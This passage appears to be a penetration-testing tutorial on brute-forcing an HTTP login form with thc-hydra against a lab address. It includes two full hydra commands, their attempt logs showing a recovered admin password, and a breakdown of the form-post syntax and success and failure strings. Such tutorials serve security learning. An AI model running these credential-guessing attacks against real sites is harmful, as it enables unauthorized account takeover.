 Let us now brute force the password using thc-hydra.

Hydra command 1:
```bash
hydra -t 4 -l admin -V -P common.txt 192.168.206.1 http-form-post "/login/log.php:user=^USER^&password=^PASS^:S=success"
```
Here is output:
```bash
root@find:~/Desktop# hydra -t 4 -l admin -V -P common.txt 192.168.206.1 http-form-post "/login/log.php:user=^USER^&password=^PASS^:S=success"
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-01-09 06:08:07
[DATA] 4 tasks, 1 server, 935 login tries (l:1/p:935), ~233 tries per task
[DATA] attacking service http-post-form on port 80
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Admin" - 1 of 935 [child 0]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Administration" - 2 of 935 [child 1]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "crm" - 3 of 935 [child 2]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CVS" - 4 of 935 [child 3]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CYBERDOCS" - 5 of 935 [child 1]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CYBERDOCS25" - 6 of 935 [child 0]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CYBERDOCS31" - 7 of 935 [child 2]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "INSTALL_admin" - 8 of 935 [child 3]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Log" - 9 of 935 [child 1]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "yourpass" - 10 of 935 [child 2]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Logs" - 11 of 935 [child 0]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Pages" - 12 of 935 [child 3]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "youradmin" - 13 of 935 [child 1]
[80][www-form] host: 192.168.206.1   login: admin   password: yourpass
1 of 1 target successfully completed, 1 valid password found

Let's break down the "/login/log.php:user=^USER^&password=^PASS^:S=success" 
 
/login/ = path
log.php = Action page 
user = First parameter
^USER^ = Use the strings from -l or -L
password = Second parameter
^PASS^ =  Use the strings from -p or -P(usually dictionary file or for brute force option -x)
S=success = When hydra see success message from the action page it will stop mean , Successfully cracked!
This is really important. If it has been set wrong then hydra will give false positive. So careful! 
 
```
# Hydra command 2
```bash
hydra -t 4 -l admin -V -P common.txt 192.168.206.1 http-form-post "/login/log.php:user=^USER^&password=^PASS^:fail"
root@find:~/Desktop# hydra -t 4 -l admin -V -P common.txt 192.168.206.1 http-form-post "/login/log.php:user=^USER^&password=^PASS^:fail"
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-01-09 06:38:28
[DATA] 4 tasks, 1 server, 935 login tries (l:1/p:935), ~233 tries per task
[DATA] attacking service http-post-form on port 80
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Admin" - 1 of 935 [child 0]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Administration" - 2 of 935 [child 1]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "crm" - 3 of 935 [child 2]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CVS" - 4 of 935 [child 3]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CYBERDOCS" - 5 of 935 [child 1]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CYBERDOCS25" - 6 of 935 [child 3]
```